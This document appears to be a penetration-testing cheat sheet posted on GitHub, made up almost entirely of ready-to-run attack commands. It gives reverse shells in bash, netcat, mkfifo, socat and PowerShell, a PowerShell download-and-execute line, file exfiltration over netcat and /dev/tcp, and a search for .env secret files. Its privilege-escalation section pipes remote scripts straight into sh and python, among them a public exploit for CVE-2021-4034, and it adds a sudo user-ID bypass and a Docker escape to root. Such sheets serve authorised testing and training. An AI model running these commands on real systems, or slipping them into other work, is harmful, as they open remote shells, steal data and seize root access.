 # CHEATSHEET


## ENUMERATION

### NETWORK

 #### **HOST DISCOVERY**
 
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

 #### **TCP OPEN PORTS**
 
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

 #### **INFO & VERSION**
 
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

 #### **HTTP ENUMERATION**

 Enumerate common directories and files with nmap
 
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster

```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



### REVERSE SHELLS

 #### **BASH**
 
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

 #### **NETCAT**
 
```bash
nc -e /bin/bash <IP> <PORT>
```

 #### **MKFIFO**
 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

 #### **SOCAT**
 
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

 #### **POWERSHELL**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

 #### **CMD**
 
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://<IP>/<RESOURCE>')
```



### SHARE AND DOWNLOAD


 #### **HTTP SERVER**
 
```bash
# Python3
python3 -m http.server 80

# Python2
python -m SimpleHTTPServer 80

# PHP
php -S 0.0.0.0:80
```

 #### **SMB** 
 
```bash
smbserver.py shareName $(pwd) -smb2support
```

 #### **FILE TRANSFER ( NETCAT - BASH )** 
 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

 #### **DOWNLOAD** 

 Powershell
 
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

Cmd
 
```shell
certutil -urlcache -split -f <URL> <PATH>
```

Bash
 
```bash
wget "http://<IP>/"
```



### SYSTEM ENUMERATION


 #### **Enviroment Variables**
 
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

 #### **Find SUID on GUID files**
 
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

 #### **Check capabilities**
 
```bash
getcap -r / 2>/dev/null
```

 #### **Open local ports
 
```bash
ss -nltp
```

 # **Cron Jobs**
 
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

 #### **Monitoring processes**
 
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

 #### **Scripts with write permissions**
 
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

 #### **LinPEAS**
 
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



# PRIVILEGE ESCALATION

 #### **Sudo**

```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

 #### **Polkit - (CVE-2021-4034)**

```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
 
 #### **Docker**
 
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

